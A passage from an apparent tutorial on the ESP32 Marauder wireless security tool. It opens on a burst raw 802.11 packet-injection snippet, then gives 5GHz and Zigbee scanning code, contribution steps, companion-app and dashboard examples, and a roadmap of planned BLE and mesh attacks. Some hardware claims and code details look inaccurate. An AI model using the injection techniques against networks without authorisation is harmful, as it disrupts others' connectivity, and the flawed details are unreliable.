    esp_wifi_set_retry_time(0);
    
    // Queue multiple packets
    for(int i = 0; i < 100; i++) {
        packet_buffer[i] = generatePacket();
    }
    
    // Burst transmission
    esp_wifi_80211_tx(WIFI_IF_AP, packet_buffer, sizeof(packet_buffer), false);
}
```

### Advanced Modifications

#### Adding 5GHz Support

**Hardware Requirements**:
- ESP32-C6 or ESP32-S3 with 5GHz support
- Dual-band antenna

**Code Modifications**:
```cpp
#ifdef SUPPORT_5GHZ
void scan5GHz() {
    // 5GHz channels (US)
    uint8_t channels_5ghz[] = {
        36, 40, 44, 48,      // UNII-1
        52, 56, 60, 64,      // UNII-2A (DFS)
        100, 104, 108, 112,  // UNII-2C (DFS)
        116, 132, 136, 140,  // UNII-2C (DFS)
        149, 153, 157, 161,  // UNII-3
        165                  // UNII-3
    };
    
    for(uint8_t ch : channels_5ghz) {
        esp_wifi_set_channel(ch, WIFI_SECOND_CHAN_NONE);
        performScan();
    }
}
#endif
```

#### Custom Protocol Support

```cpp
// Add Zigbee scanning (requires CC2531)
class ZigbeeScanner {
    void scanZigbee() {
        // Zigbee channels overlap with WiFi
        uint8_t zigbee_channels[] = {
            11, 15, 20, 25  // Non-overlapping with WiFi
        };
        
        for(uint8_t ch : zigbee_channels) {
            // Send to CC2531 via serial
            Serial2.printf("SCAN %d\n", ch);
            delay(1000);
            
            // Read results
            while(Serial2.available()) {
                String device = Serial2.readStringUntil('\n');
                parseZigbeeDevice(device);
            }
        }
    }
};
```

---

## Community Resources & Development

### Official Resources

**GitHub Repository**: https://github.com/justcallmekoko/ESP32Marauder
- Source code
- Issues tracker
- Pull requests
- Wiki documentation

**Discord Server**: [Join Marauder Discord]
- Real-time support
- Feature requests
- Beta testing
- Community projects

### Contributing to Marauder

#### Setting Up Development Environment

```bash
# Clone repository
git clone https://github.com/justcallmekoko/ESP32Marauder.git
cd ESP32Marauder

# Create feature branch
git checkout -b feature/my-new-feature

# Install dependencies
pip install -r requirements.txt

# Setup Arduino CLI
arduino-cli core install esp32:esp32
arduino-cli lib install "LinkedList" "ArduinoJson" "TFT_eSPI"
```

#### Code Style Guidelines

```cpp
// Function naming: camelCase
void performScan() {
    // Implementation
}

// Constants: UPPER_SNAKE_CASE
#define MAX_SCAN_TIME 30000

// Classes: PascalCase
class NetworkScanner {
    // Members: m_ prefix for private
private:
    int m_scanCount;
    
public:
    void startScan();
};

// Comments: Clear and concise
// This function performs a WiFi scan on all channels
// Returns: Number of networks found
int scanAllChannels() {
    // Implementation with inline comments
    int count = 0;  // Network counter
    
    for(int ch = 1; ch <= 14; ch++) {
        // Skip channels 12-14 in US
        if(ch > 11 && region == US) continue;
        
        count += scanChannel(ch);
    }
    
    return count;
}
```

#### Submitting Pull Requests

```bash
# Make changes and test thoroughly
# Add your changes
git add .
git commit -m "feat: Add new scanning feature"

# Push to your fork
git push origin feature/my-new-feature

# Create pull request on GitHub
# Include:
# - Description of changes
# - Testing performed
# - Screenshots if UI changes
# - References to issues
```

### Community Projects

#### Marauder Companion App (Android)

**Features**:
- Bluetooth serial control
- Remote command execution
- Live packet statistics
- GPS mapping integration

**Code Snippet**:
```kotlin
class MarauderBluetooth {
    private val UUID = "00001101-0000-1000-8000-00805F9B34FB"
    
    fun connectToMarauder(address: String) {
        val device = bluetoothAdapter.getRemoteDevice(address)
        val socket = device.createRfcommSocketToServiceRecord(UUID)
        socket.connect()
        
        // Send commands
        val output = socket.outputStream
        output.write("SCAN\n".toByteArray())
        
        // Read results
        val input = socket.inputStream
        val buffer = ByteArray(1024)
        val bytes = input.read(buffer)
        val result = String(buffer, 0, bytes)
    }
}
```

#### Web Interface Dashboard

**Features**:
- Real-time packet graphs
- Network topology visualization
- Attack automation
- Report generation

**Implementation**:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Marauder Dashboard</title>
    <script src="https://cdn.jsdelivr.net/npm/chart.js"></script>
</head>
<body>
    <canvas id="packetChart"></canvas>
    <script>
        // WebSocket connection to Marauder
        const ws = new WebSocket('ws://192.168.4.1:81');
        
        ws.onmessage = (event) => {
            const data = JSON.parse(event.data);
            updateChart(data);
        };
        
        function updateChart(data) {
            // Update Chart.js graph
            packetChart.data.datasets[0].data.push(data.packets);
            packetChart.update();
        }
    </script>
</body>
</html>
```

### Future Development Roadmap

**Planned Features**:
1. **Version 0.14.x**:
   - WPA3 support
   - Improved BLE attacks
   - Cloud integration

2. **Version 0.15.x**:
   - 5GHz band support
   - Mesh network attacks
   - AI-powered target selection

3. **Version 1.0.0**:
   - Full GUI redesign
   - Plugin system
   - Professional reporting

**Community Wishlist**:
- LoRa/LoRaWAN support
- Sub-GHz operations
- SDR integration
- Machine learning for pattern detection

---

## Conclusion

The ESP32 Marauder represents a powerful, affordable, and versatile platform for wireless security testing. From basic reconnaissance to advanced attacks, it provides capabilities previously reserved for expensive commercial tools.

### Key Takeaways

✅ **Accessibility**: Affordable hardware makes wireless security testing accessible to everyone
✅ **Education**: Hands-on learning about WiFi and Bluetooth protocols
✅ **Versatility**: Multiple attack vectors in a single portable device
✅ **Community**: Active development and support community
✅ **Responsibility**: Great power requires ethical use and legal compliance

### Final Reminders

⚠️ **Legal**: Always obtain written authorization before testing
⚠️ **Ethical**: Use knowledge to improve security, not exploit it
⚠️ **Educational**: Share knowledge responsibly with the community
⚠️ **Professional**: Maintain high standards in testing and reporting

### Next Steps

1. **Build or buy** your Marauder hardware
2. **Flash** the latest firmware
3. **Practice** in your own test environment
4. **Learn** the underlying protocols
5. **Contribute** to the community
6. **Stay legal** and ethical

Remember: The goal is to make wireless networks more secure by understanding their weaknesses. Use this knowledge responsibly and always operate within legal boundaries.

---

**Guide Version**: 1.0  
**Last Updated**: November 2025  
**Author**: Security Professional  
**Based on**: ESP32 Marauder v0.13.10  
**Repository**: https://github.com/justcallmekoko/ESP32Marauder

**Questions? Issues? Contributions?**
- Open an issue on GitHub
- Join the Discord community
- Submit pull requests for improvements

**Happy Ethical Hacking! 🔐📡**

*****

## Security and Ethical Considerations ⚠️

**IMPORTANT**: These instructions and guides are for **authorized security testing only**. Unauthorized access to networks is illegal. Always:
- Get written permission before testing devices or networks other than your own
- Only test networks you own or have explicit authorization to test
- Follow responsible disclosure practices
- Comply with local laws and regulations
- Use for educational purposes in controlled environments

**Legal Use Cases:**
- Penetration testing with client authorization
- Security research in isolated lab environments
- Testing your own network security
- Educational purposes with proper supervision
- CTF (Capture The Flag) competitions

---

